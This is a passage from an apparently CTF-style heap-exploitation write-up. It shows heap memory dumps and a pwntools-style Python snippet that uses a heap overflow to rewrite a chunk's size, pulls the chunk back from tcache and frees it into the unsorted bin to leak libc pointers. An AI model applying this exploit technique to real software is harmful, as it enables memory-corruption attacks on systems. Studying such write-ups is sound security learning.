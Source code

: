 ```
0x5565109c09a0:	0x0000000000000000	0x0000000000000000
0x5565109c09b0:	0x0000000000000000	0x0000000000020651
```

So the top of the heap still looks the same as it has before with our A,B,C still at the top but there are 15 padding chunks also present and within those also 15 fake chunks.

now what we need to do is to change the size of B to 0x501, we use our HOF again to achieve that, then we have to get the pointer to B back from the tcache, we can just do another **create** of the same size, and then we free B to put it into unsorted bin.


``` py

edit(padd(b'\x06'),padd(b'\x01\x00\x06'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) # change B size

create(padd(int.to_bytes(31,1,'little')), '8',b'H'*8) # get pointer to B back from tcache so we can free it again
 
delete(padd(b'\x1f')) # free B to put it into unsorted bin

```


heap layout : 

```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000501 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c0330:	0x000000000000000f	0x5252525252525252
0x5565109c0340:	0x5252525252525252	0x5252525252525252
0x5565109c0350:	0x0000000000000000	0x0000000000000041 <- Fake 0
0x5565109c0360:	0x0000000000000000	0x0000000000000000
0x5565109c0370:	0x0000000000000000	0x0000000000000000
0x5565109c0380:	0x0000000000000000	0x0000000000000000
0x5565109c0390:	0x0000000000000000	0x0000000000000071 <- Pad 0
0x5565109c03a0:	0x0000000000000010	0x5252525252525252
0x5565109c03b0:	0x5252525252525252	0x5252525252525252
0x5565109c03c0:	0x0000000000000000	0x0000000000000041 <- Fake 0
0x5565109c03d0:	0x0000000000000000	0x0000000000000000
0x5565109c03e0:	0x0000000000000000	0x0000000000000000
0x5565109c03f0:	0x0000000000000000	0x0000000000000000

...

0x5565109c0780:	0x0000000000000000	0x0000000000000071 <- Pad 10
0x5565109c0790:	0x0000000000000019	0x5252525252525252
0x5565109c07a0:	0x5252525252525252	0x5252525252525252
0x5565109c07b0:	0x0000000000000500	0x0000000000000040 <- Fake 10
0x5565109c07c0:	0x0000000000000000	0x0000000000000000
0x5565109c07d0:	0x0000000000000000	0x0000000000000000
0x5565109c07e0:	0x0000000000000000	0x0000000000000000
0x5565109c07f0:	0x0000000000000000	0x0000000000000071 <- Pad 11
0x5565109c0800:	0x000000000000001a	0x5252525252525252
0x5565109c0810:	0x5252525252525252	0x5252525252525252
0x5565109c0820:	0x0000000000000000	0x0000000000000041 <- Fake 11
0x5565109c0830:	0x0000000000000000	0x0000000000000000
0x5565109c0840:	0x0000000000000000	0x0000000000000000
0x5565109c0850:	0x0000000000000000	0x0000000000000000
```